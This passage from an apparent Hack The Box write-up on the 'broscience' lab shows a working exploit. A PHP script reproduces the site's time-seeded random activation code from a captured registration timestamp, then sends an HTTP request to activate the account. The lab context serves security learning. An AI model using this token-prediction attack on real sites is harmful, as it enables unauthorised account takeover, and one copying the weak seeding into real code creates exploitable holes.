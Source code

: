 ```php
            }
        } else {
            $alert = "Invalid activation code.";
        }
    } else {
        $alert = "Invalid activation code.";
    }
} else {
    $alert = "Missing activation code.";
}
```

# Explotation

## User activation

We'll use the code snippet discovered in **includes/utils.php** to generate an activation code for our previously created user.  
The date has been taken from the burp request that was captured while registering on the page.  

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime("Mon, 09 Jan 2023 21:28:34 GMT"));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
}

generate_activation_code();
?>
```

```bash
┌──(mrk㉿htb)-[~/Dokumente/htb/lab/broscience]
└─$ php generate.php
AtbiWw4c7YXN82lc9enxtWRg531vVkZe
```

Now it's time to activate the account  

```http
GET /activate.php?code=AtbiWw4c7YXN82lc9enxtWRg531vVkZe HTTP/1.1
Host: broscience.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
